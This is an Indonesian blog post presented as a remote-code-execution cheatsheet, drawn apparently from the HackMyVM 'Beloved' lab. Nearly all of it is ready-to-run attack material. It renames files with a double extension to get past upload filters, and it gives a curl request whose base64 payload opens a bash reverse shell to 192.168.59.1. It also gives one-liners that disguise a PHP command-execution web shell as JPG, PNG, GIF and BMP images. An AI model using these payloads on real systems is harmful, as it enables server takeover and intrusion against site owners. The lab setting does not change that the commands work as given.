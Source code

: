 ```yaml
---
layout: post
title: "Note: RCE cheatsheet"
date: 2022-12-09
---
```


Karena saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut

Bisa juga, jika trik ini tidak berfungsi dengan benar, maka bisa dinjeksi dengan membuat ekstensi menjadi double
```sh
~$ mv shell.jpg shell.jpg.php
```
lalu coba aktifkan dengan curl
```sh
~$ curl -s "http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php?cmd=echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNTkuMS8xMjM0NSAwPiYxCg%3D%3D+%7C+base64+-d+%7C+bash"
```
Dan, tidak perlu repot repot untuk menggunakan <https://revshell.com> yang dibuat oleh 0day. Cukup buat string menjadi URL-encoded, dan eksekusi.
```sh
~$ python -c 'import urllib.parse; string = "(isi string di sini)"; print(urllib.parse.quote_plus(string))'
```
Dengan format seperti ini, btw ini format favorit saya.
```sh
~$ echo (base64) | base64 -d | bash  
```

## Kasus
ada kasus menarik dari mesin [Beloved: HackMyVM], exploit yang saya jalankan dengan request `image` tidak berfungsi, jadi saya menggunakan trik manual yaitu mengganti format menjadi `.jpg.php` untuk membypass.

![image](https://i.postimg.cc/63Vx9Pzf/image.png)

Ketika saya eksekusi jadi seperti ini
```
╭─ via [machines/beloved]
╰─ curl -s http://beloved/wp-content/uploads/2022/12/shell.jpg-1670590514.8364.php\?cmd\=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Sebelum masuk ke cheatsheet, jika anda penikmat POST Request bisa mengganti `$_GET` menjadi `$_POST`. LOL semua orang juga sudah tau ini.

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

Happy hacking!
